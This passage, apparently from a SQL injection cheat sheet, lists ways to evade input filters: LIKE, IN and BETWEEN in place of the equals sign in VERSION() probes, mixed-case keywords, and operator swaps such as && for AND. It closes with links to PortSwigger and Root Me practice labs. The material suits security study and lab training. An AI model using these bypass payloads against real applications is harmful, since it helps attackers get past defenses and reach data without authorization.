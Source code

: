 ### No Equal Allowed

Bypass using LIKE/NOT IN/IN/BETWEEN

| Bypass    | SQL Example |
| --------- | ------------------------------------------ |
| `LIKE`    | `SUBSTRING(VERSION(),1,1)LIKE(5)`          |
| `NOT IN`  | `SUBSTRING(VERSION(),1,1)NOT IN(4,3)`      |
| `IN`      | `SUBSTRING(VERSION(),1,1)IN(4,3)`          |
| `BETWEEN` | `SUBSTRING(VERSION(),1,1) BETWEEN 3 AND 4` |

### Case Modification

Bypass using uppercase/lowercase.

| Bypass    | Technique  |
| --------- | ---------- |
| `AND`     | Uppercase  |
| `and`     | Lowercase  |
| `aNd`     | Mixed case |

Bypass using keywords case insensitive or an equivalent operator.

| Forbidden | Bypass                      |
| --------- | --------------------------- |
| `AND`     | `&&`                        |
| `OR`      | `\|\|`                      |
| `=`       | `LIKE`, `REGEXP`, `BETWEEN` |
| `>`       | `NOT BETWEEN 0 AND X`       |
| `WHERE`   | `HAVING`                    |

## Labs

* [PortSwigger - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
* [PortSwigger - SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
* [PortSwigger - SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
* [PortSwigger - SQL Labs](https://portswigger.net/web-security/all-labs#sql-injection)
* [Root Me - SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
* [Root Me - SQL injection - Authentication - GBK](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication-GBK)
* [Root Me - SQL injection - String](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
* [Root Me - SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
* [Root Me - SQL injection - Routed](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed)
* [Root Me - SQL injection - Error](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error)
* [Root Me - SQL injection - Insert](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert)
* [Root Me - SQL injection - File reading](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-File-reading)